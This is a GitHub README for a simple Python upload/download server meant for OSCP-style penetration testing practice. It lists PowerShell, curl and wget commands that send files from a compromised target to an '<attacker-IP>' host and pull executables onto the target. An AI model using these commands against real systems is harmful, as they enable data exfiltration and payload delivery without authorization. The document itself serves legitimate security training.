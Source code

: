 # OSCP-Plus-Prep

## Simple File Transfer Server

This is a lightweight Python HTTP server designed for quick and easy file transfers between machines. It is particularly useful in penetration testing scenarios, such as the OSCP+ exam, where transferring files between an attacker's machine and a compromised target is necessary.

### Features

- Supports both **file upload (PUT request)** and **file download (GET request)**.
- Works on **Windows, Linux, and macOS**.
- Requires **no dependencies** beyond Python's standard library.
- Custom **colored output** for better visibility.

---

## How to Use

### 1. Starting the Server

To start the server, run the following command on your attacker machine:

```bash
python3 simple_server.py 8080
```

By default, the server runs on port `80`, but you can specify any available port, such as `8080`.

---

## Transferring Files

### Uploading Files to the Attacker Machine

#### **From a Windows Target (Using PowerShell)**

To upload a file from a Windows target to your attacker's machine:

```powershell
Invoke-WebRequest -Uri "http://<attacker-IP>:8080/file.txt" -InFile "C:\Users\Documents\file.txt" -Method Put
```

#### **From a Linux Target**

Using `curl` (recommended):

```bash
curl -T file.tar.gz http://<attacker-IP>/file.tar.gz
```

Using `wget`:

```bash
wget --method=PUT --body-file=file.tar.gz http://<attacker-IP>/file.tar.gz
```

---

### Downloading Files from the Attacker Machine

#### **From Any Target (Windows/Linux/macOS)**

To download a file from the attacker's machine to your target:

```bash
curl http://<attacker-IP>:8080/file.exe -o file.exe
```

This will save the `file.exe` file from the attacker's machine to the target.

If curl is not available on the system, you can use wget to download files as well:

```bash
wget http://<attacker-IP>:8080/file.exe -O file.exe
```

---

## Author

**Created by:** `glitcher`
